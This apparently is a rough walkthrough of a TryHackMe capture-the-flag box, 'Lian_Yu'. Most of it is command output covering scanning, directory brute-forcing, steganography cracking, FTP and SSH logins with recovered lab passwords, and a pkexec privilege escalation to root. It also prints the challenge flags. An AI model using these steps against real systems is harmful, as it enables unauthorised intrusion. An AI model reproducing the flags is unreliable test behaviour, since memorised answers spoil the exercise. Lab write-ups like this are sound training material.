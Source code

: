 └─# nmap 10.10.11.227 -sV -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53 --min-rate 4000
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# nmap -sS -p- --disable-arp-ping  -n --min-rate 4000 10.10.189.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 14:16 EDT
Nmap scan report for 10.10.189.56
Host is up (3.4s latency).
Not shown: 60480 filtered tcp ports (no-response), 5051 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 53.14 seconds

used then └─# ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.189.56/FUZZ 
found : island                  [Status: 301, Size: 235, Words: 14, Lines: 8]
in the page found :  Ohhh Noo, Don't Talk...............

I wasn't Expecting You at this Moment. I will meet you there

You should find a way to Lian_Yu as we are planed. The Code Word is:
vigilante
Then run it also in that directory
──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.189.56/island/FUZZ
found this : 2100                    [Status: 301, Size: 240, Words: 14, Lines: 8]
http://10.10.189.56/island/2100/
found this comment on the source  you can avail your .ticket here but how?   
i think i need to add .ticked extension in /island/2100/
i can use -x for the extension
└─# gobuster dir -u http://10.10.189.56/island/2100/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -x .ticket -t 40
Much time then 
found this : /green_arrow.ticket   (Status: 200) [Size: 71]
found this : 
This is just a token to get into Queen's Gambit(Ship)
RTy8yhBQdscX
it's a base58 
──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# echo "RTy8yhBQdscX" | base58 -d 
!#th3h00d

will try this as password for vigilante that we found first.
logged in as ftp
found :
rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
change the directory 
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||44380|).
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01  2020 slade
drwxr-xr-x    2 1001     1001         4096 May 05  2020 vigilante
226 Directory send OK.
ftp> 

found slade
steg on these jpg
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# steghide extract -sf aa.jpg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!
                                                                                                          
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# time stegseek -sf aa.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"

[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

real	0.19s
user	0.07s
sys	0.14s
cpu	111%


it's a zip: 
──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# file aa.jpg.out 
aa.jpg.out: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                          
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# 
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# mv aa.jpg.out aa.zip
found ┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# cat passwd.txt 
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
                                                                                                          
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# cat shado      
M3tahuman i think this the ssh password

the leaveme alone is a data file but we need to change the file signature
                                                                                                          
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# file Leave_me_alone.png 
Leave_me_alone.png: data
change the hex : 89 50 4E 47 0D 0A 1A 0A 

on that image i found password as texte 
access : ┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# ssh slade@10.10.189.56
slade@10.10.189.56's password: 
			      Way To SSH...
			  Loading.........Done.. 
		   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


	██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
	██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
	██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
	██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
	███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
	╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ 

slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

PrivEsc:
slade@LianYu:~$ find / -type f -perm /4000 -ls 2>/dev/null
found /usr/bin/pkexec
with some search on google we found it's the polkit vulnerability

found : https://gtfobins.github.io/gtfobins/pkexec/

I run : sudo /usr/bin/pkexec /bin/bash -u
root.txt
root@LianYu:~# cat root.txt 
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825







